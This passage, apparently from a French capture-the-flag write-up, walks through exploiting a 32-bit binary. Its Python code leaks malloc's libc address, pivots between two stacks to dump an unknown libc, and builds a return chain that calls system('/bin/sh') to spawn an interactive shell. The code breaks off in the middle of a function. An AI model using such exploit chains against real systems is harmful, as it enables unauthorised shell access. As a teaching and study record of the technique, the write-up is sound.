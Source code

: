 après ce prélude, en faisant
```
#time.sleep(20)
malloc=word(rep[36:36+4])
print "Malloc=",hex(malloc)
```
malloc contient l'adresse de malloc dans la libc qui devrait permettre d'obtenir celle de «system». L'execution de 
```
def getsystem(cmd):
    chaine=p32(pile)
    chaine+=p32(system)	<--- appel de system
    chaine+=p32(pop1)
    chaine+=p32(pile+16)
    chaine+=cmd+"\x00"	<--- pour executer la commande cmd
    chaine+="\n"
    p.send(chaine)
    return()

getsystem("/bin/sh")
#print p.recvall(1)
p.interactive()
```

Souci: cette fameuse adresse system. La libc n'est pas dans la libc-database, il faut donc faire un dump de cette libc. Mais la connexion n'est pas fameuse, le mieux est de boucler en conservant le plus possible la connexion (qui coupe au bout de 30s). On va donc boucler en switchant entre deux piles: Ce sont les deux fonctions getadd1 et getadd2 qui font cela:
```
def getadd1(adr):
    chaine=p32(pile)
    chaine+=p32(puts_plt)	<--- affiche deductible
    chaine+=p32(pop1)
    chaine+=p32(deductible)
    chaine+=p32(puts_plt)	<--- lit adr jusqu'au premier 00
    chaine+=p32(pop1)
    chaine+=p32(adr)
    chaine+=p32(puts_plt)	<--- affiche Income
    chaine+=p32(pop1)
    chaine+=p32(income)
    chaine+=p32(gets_plt)	<--- Fabrique pile2 par gets
    chaine+=p32(pop1)
    chaine+=p32(pile2)
    chaine+=p32(puts_plt)
    chaine+=p32(pop1)
    chaine+=p32(correct)	<--- affiche correct
    chaine+=p32(pop_ebp)	<--- switche sur la pile2
    chaine+=p32(pile2)
    chaine+=p32(leave)
    chaine+="\n"
    p.send(chaine)
    recu=p.recvuntil("Income")
    buf=recu[recu.index("Deductible")+17:recu.index("Income")-1]+"\x00"
# buf contient la partie utile de la mémoire
    print 'len buf=',len(buf)
    return(buf)

# fonction sysmétrique switchant de pile2 à pile

def getadd2(adr):
    chaine=p32(pile2)
    chaine+=p32(puts_plt)
    chaine+=p32(pop1)
    chaine+=p32(deductible)
    chaine+=p32(puts_plt)
```